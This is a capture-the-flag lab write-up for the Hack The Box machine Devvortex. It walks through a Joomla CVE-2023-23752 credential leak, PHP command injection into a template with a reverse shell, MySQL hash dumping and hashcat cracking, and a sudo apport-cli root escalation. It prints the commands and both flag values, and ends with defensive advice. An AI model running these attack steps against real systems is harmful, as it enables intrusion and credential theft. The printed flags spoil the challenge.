# HTB - Devvortex

**IP Address:** `10.129.28.37`  
**OS:** Linux (Ubuntu; OpenSSH `8.2p1 Ubuntu 4ubuntu0.9`; nginx `1.18.0`)  
**Difficulty:** Easy  
**Tags:** #linux #web #joomla #cve-2023-23752 #mysql #hashcat #sudo #apport-cli

---
## Synopsis

Devvortex exposes **SSH** and **HTTP**. The apex site (`devvortex.htb`) is static marketing HTML behind nginx, while virtual-host probing reveals **`dev.devvortex.htb`** running **Joomla 4.2.6**. **CVE-2023-23752** exposes the Joomla REST configuration and leaks **`lewis`** credentials for the administrator portal; authenticated template customization grants **`www-data`** execution via **`system()`** in **`error.php`**, followed by an outbound reverse shell. **`www-data`** reuses **`lewis`** against **MySQL**, dumps **`sd4fg_users`** bcrypt hashes, cracks **`logan`** offline with **hashcat**, and escalates horizontally to capture **`user.txt`**. **`sudo`** grants **`/usr/bin/apport-cli`** as **`(ALL : ALL)`**; **`sudo apport-cli -f`** reaches **`less`**, where **`!/bin/bash`** yields **`root`**.

---
## Skills Required

- TCP enumeration with **nmap** (full-range plus targeted `-sCV`)
- HTTP recon (**curl**, **whatweb**) and virtual-host discovery (**gobuster vhost**)
- Basic Joomla familiarity (administrator panel, templates)

## Skills Learned

- Exploiting **CVE-2023-23752** (unauthenticated Joomla REST disclosure on vulnerable **4.x** lines)
- Converting Joomla **Super User** access into disk-backed **PHP execution** via site templates
- Dumping Joomla **`#__users`** hashes from **MySQL** and cracking **bcrypt** with **hashcat**
- Privilege escalation via **`sudo apport-cli`** and **`less`** breakout (**GTFOBins** pattern)

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.28.37
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.28.37 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80 10.129.28.37 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22/tcp | ssh | OpenSSH `8.2p1 Ubuntu 4ubuntu0.9` |
| 80/tcp | http | nginx `1.18.0 (Ubuntu)`; HTTP title reports redirect to **`http://devvortex.htb/`** |

---
## 2. Service Enumeration

### 2.1 Host mapping and apex site fingerprint

Map the apex name for clean HTTP testing:

```bash
echo "10.129.28.37 devvortex.htb" | sudo tee -a /etc/hosts
```

The targeted scan surfaces a nginx vhost redirect; mapping `devvortex.htb` locally makes `Host`/`SNI` behavior match what the server expects during manual review.

```bash
whatweb http://devvortex.htb/
```



---
### 2.2 Joomla discovery on `dev.devvortex.htb`

Virtual-host fuzzing (`gobuster vhost` with `--append-domain`) returned a **200** response for **`dev.devvortex.htb`** (distinct from the static apex content). Map the hostname to the same IP, then inspect crawler hints and the administrator entry point.

```bash
curl -s http://dev.devvortex.htb/robots.txt | head -n 40
```



The administrator surface is reachable over HTTP on the dev host:

```text
Browser: http://dev.devvortex.htb/administrator/
```



---
### 2.3 Joomla version confirmation (OWASP JoomScan)

JoomScan corroborates the major/minor line and collects common Joomla paths even when its built-in “core vulnerable” heuristic is stale.

```bash
git clone https://github.com/OWASP/joomscan.git
cd joomscan
./joomscan.pl -u http://dev.devvortex.htb
```



The scan run reports **Joomla 4.2.6** and enumerates **`robots.txt`**-linked directories (while still printing “Target Joomla core is not vulnerable,” which manual validation supersedes).



---
## 3. Foothold

### 3.1 Unauthenticated disclosure (CVE-2023-23752)

Joomla **4.2.6** is in the affected configuration space for **CVE-2023-23752**. A public PoC dumps users and exposes application secrets that include **`lewis`** credentials for the Joomla administrator session.

```bash
git clone https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT
cd CVE-2023-23752-EXPLOIT
python3 CVE-2023-23752.py -u http://dev.devvortex.htb
```



Recovered (rotate/redact before any public posting):

- **`lewis`** application password from **`/api/index.php/v1/config/application?public=true`**

---
### 3.2 Authenticated Joomla administrator access

Use the disclosed **`lewis`** credentials at **`http://dev.devvortex.htb/administrator/`** and confirm **`Joomla 4.2.6`** on the administrator dashboard.

```bash
# Browser login at /administrator/ — dashboard confirms privileged session context.
```



---
### 3.3 Disk-backed PHP execution via Cassiopeia (`error.php`)

With **Super User** rights, **`System → Templates → Site → Cassiopeia → Editor`** exposes **`/templates/cassiopeia/error.php`**. This solve injected PHP calling **`system()`** so the interpreter executes attacker-controlled commands when the template path is loaded—followed by an outbound **`bash`** TCP reverse shell from the victim toward your listener.

```bash
nc -lvnp 443
# After saving the template change, browse/trigger execution against the Cassiopeia error template URL under the docroot (example observed during the solve):
# http://dev.devvortex.htb/templates/cassiopeia/error.php
```





---
### 3.4 Confirming execution context (`www-data`)

Validate the resulting shell maps to the web stack account and locate local users/home directories relevant for the next pivot.

```bash
whoami
id
ls /home
cat /home/logan/user.txt
```



---
## 4. Privilege Escalation

### 4.1 Reusing `lewis` credentials against MySQL (`joomla` / `sd4fg_users`)

The same **`lewis`** password accepted by Joomla also authenticates to local **MySQL**, revealing the **`joomla`** schema and **`sd4fg_*`** tables.

```bash
mysql -u lewis -p
```

```text
mysql> SHOW DATABASES;
mysql> USE joomla;
mysql> SHOW TABLES;
```



Harvest Joomla user password hashes:

```text
mysql> SELECT username, email, password FROM sd4fg_users;
```



---
### 4.2 Offline bcrypt cracking (`hashcat`)

Export bcrypt hashes (`$2y$`) into a **`hashcat`** input file and crack against **`rockyou.txt`** (**`-m 3200`**).

```bash
hashcat -m 3200 --user hashes /usr/share/wordlists/rockyou.txt
```



Recovered:

- **`logan`**: cracked plaintext observed during this solve (**rotate/redact before publishing**).

---
### 4.3 Horizontal escalation to `logan` / user proof

Switch context from **`www-data`** to **`logan`** using the cracked password and read **`user.txt`**.

```bash
su logan
cat /home/logan/user.txt
```



🏁 **User flag obtained**

- **`user.txt`**: `1430b81fca30a223b2c5cd1bd9272fdc`

---
### 4.4 `sudo` enumeration (`apport-cli`)

On **`logan`**, **`sudo -l`** prompts for **`logan`**’s password and lists a constrained-but-dangerous privilege:

```bash
sudo -l
```



---
### 4.5 Root via `sudo apport-cli` + `less` breakout

**GTFOBins** documents **`apport-cli`** spawning a pager (**`less`**). Running the permitted binary under **`sudo`** makes the pager run with elevated privileges; **`!/bin/bash`** breaks out to **`root`**.

```bash
sudo /usr/bin/apport-cli -f
# choose: 1 (Display / X.org), 2 (Freezes/hangs), then v (View report)
# inside less:
!/bin/bash
whoami
cat /root/root.txt
```







🏁 **Root flag obtained**

- **`root.txt`**: `ce752c421aa7df17ca9e6df841a87310`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **nmap**: `22/tcp`, `80/tcp` → nginx redirect exposes **`devvortex.htb`**.
2. **Virtual hosts**: **`dev.devvortex.htb`** → Joomla artifacts (**`robots.txt`**, **`/administrator/`**).
3. **CVE-2023-23752**: disclose **`lewis`** credentials → Joomla admin.
4. **Template abuse**: **`system()`** in **`templates/cassiopeia/error.php`** → **`www-data`** reverse shell.
5. **MySQL**: **`lewis`** → dump **`sd4fg_users`** bcrypt hashes → **`hashcat`** cracks **`logan`**.
6. **`sudo /usr/bin/apport-cli`** interactive flow → **`less`** → **`!/bin/bash`** → **`root`**.

---
## Defensive Recommendations

- Patch Joomla past affected builds for **CVE-2023-23752** and validate REST exposure/configuration hardening.
- Enforce MFA and strict admin-session controls; restrict template/source editors on production CMS deployments where possible.
- Treat database credentials embedded in CMS configuration as sensitive—enforce least-privilege DB users and rotate secrets after incidents.
- Avoid **`sudo`** grants on interactive troubleshooting binaries (**`apport-cli`**) for standard users unless tightly confined with security-reviewed wrappers.
